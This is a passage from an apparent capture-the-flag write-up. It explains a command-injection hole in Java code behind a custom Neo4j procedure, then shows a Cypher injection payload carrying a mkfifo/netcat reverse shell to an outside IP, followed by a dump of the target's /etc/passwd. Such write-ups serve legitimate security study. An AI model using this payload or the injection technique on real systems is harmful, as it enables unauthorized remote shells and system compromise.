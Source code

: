 When reading this source code I noticed it contains a `RCE` vulnerability:
```java
Object[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + (String)url};
Process process = Runtime.getRuntime().exec((String[])command);
```

In these lines, a shell command containing user-supplied input is constructed, and is then executed. Since the user-supplied input is directly passed into the shell command, without proper sanitization you can inject malicious shell commands leading to remote code execution. 

For example, we can call this in the Cypher Injection vulnerability we found like so: `CALL custom.getUrlStatusCode("127.0.0.1; whoami") YIELD statusCode RETURN statusCode`

We can test this like so:
payload used: `administrator' RETURN h.value as hash UNION CALL custom.getUrlStatusCode('http://10.10.16.3/;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.61 9001 >/tmp/f') YIELD statusCode AS hash RETURN hash;//","password":"'"`
We successfully got a shell on the box!
## Privilege Escalation to `graphasm`

When searching around the system we find a user `graphasm`:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
_laurel:x:999:987::/var/log/laurel:/bin/false
```
